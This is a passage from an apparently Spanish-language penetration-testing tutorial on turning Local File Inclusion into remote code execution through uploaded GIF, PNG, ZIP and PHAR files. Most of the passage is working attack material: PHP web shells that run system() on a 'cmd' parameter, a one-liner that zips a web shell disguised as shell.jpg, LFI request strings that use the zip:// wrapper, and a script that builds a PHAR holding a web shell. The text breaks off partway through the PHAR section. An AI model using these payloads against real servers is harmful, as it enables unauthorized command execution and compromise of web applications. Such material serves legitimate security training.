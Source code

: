 ```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

Con la ruta del archivo cargado a la mano, todo lo que tenemos que hacer es incluir el archivo cargado en la función vulnerable de LFI, y el código PHP debería ejecutarse de la siguiente manera:

```bash
?language=./profile_images/shell.gif&cmd=id
```

#### PNG FILE

Tambien podemos intentar lo anterior con un archivo PNG:

```bash
# archivo "file.png"

<?php system('whoami'); ?>
```

Carguelo, necesita conocer la ruta donde se almacena y llamarlo desde la url:

```bash
http://example.com/index.php?page=path/to/uploaded/file.png
```

#### ZIP FILE

odemos utilizar el wrapper `ZIP` para ejecutar código PHP. Sin embargo, este wrapper no está habilitado de forma predeterminada, por lo que es posible que este método no siempre funcione. 

Para hacerlo, podemos comenzar creando un script de shell web PHP y comprimiéndolo en un archivo zip (llamado `shell.jpg`), de la siguiente manera:

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
```

>[!note]
>aunque llamamos a nuestro archivo zip como (shell.jpg), algunos formularios de carga aún pueden detectar nuestro archivo como un archivo zip a través de pruebas de tipo de contenido y no permitir su carga, por lo que este ataque tiene una mayor probabilidad de funcionar si la carga de archivos zip está permitido.

Una vez que cargamos el archivo`shell.jpg`, podemos incluirlo con el wrapper `zip` como ( `zip://shell.jpg`), y luego referirnos a cualquier archivo dentro de él con `#shell.php` (URL encoded). Finalmente, podemos ejecutar comandos como siempre lo hacemos con `&cmd=id`, de la siguiente manera:

```bash
?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### PHAR

podemos usar el wrapper `phar://` para lograr un resultado similar. Para hacerlo, primero escribiremos el siguiente script PHP en un archivo `shell.php`:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
